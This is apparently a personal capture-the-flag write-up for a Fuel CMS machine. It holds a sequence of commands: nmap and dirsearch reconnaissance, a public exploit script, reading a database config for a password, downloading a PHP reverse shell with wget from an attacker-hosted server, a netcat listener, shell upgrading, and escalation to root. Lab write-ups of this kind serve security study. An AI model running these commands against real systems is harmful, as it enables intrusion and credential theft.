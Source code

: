 ```bash
sudo nmap 0.0.0.0 -F
sudo nmap 0.0.0.0 -F -sV
```

![[Captura desde 2024-09-09 15-37-21.png]]

```bash
dirsearch -u http://0.0.0.0 --exclude-status=400,403
```

![[Captura desde 2024-09-22 11-32-32.png]]

![[Captura desde 2024-09-22 11-36-35.png]]

Exploit: [https://github.com/AssassinUKG/fuleCMS](https://github.com/AssassinUKG/fuleCMS)

```bash
python exploit.py 0.0.0.0:00
```

![[Captura desde 2024-08-30 14-45-30.png]]

```bash
cat fuel/application/config/database.php
```

![[Captura desde 2024-09-22 02-44-16.png]]

password: `mememe`

reverse shell change host and port

https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

![[Captura desde 2024-09-22 13-06-56.png]]

```bash
python3 -m http.server 8000
```

![[Captura desde 2024-09-22 13-03-59.png]]

```bash
wget http://0.0.0.0:8000/reverse.php
```

![[Captura desde 2024-09-22 13-03-28.png]]

![[Captura desde 2024-09-22 13-04-45.png]]

```bash
rlwrap nc -lvpn 4444
```

![[Captura desde 2024-09-22 13-05-36.png]]

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

![[Captura desde 2024-09-22 13-08-20.png]]

```bash
su root
```

![[Captura desde 2024-09-22 13-09-35.png]]

```bash
cat /root/root.txt
```

![[Captura desde 2024-09-22 13-10-09.png]]


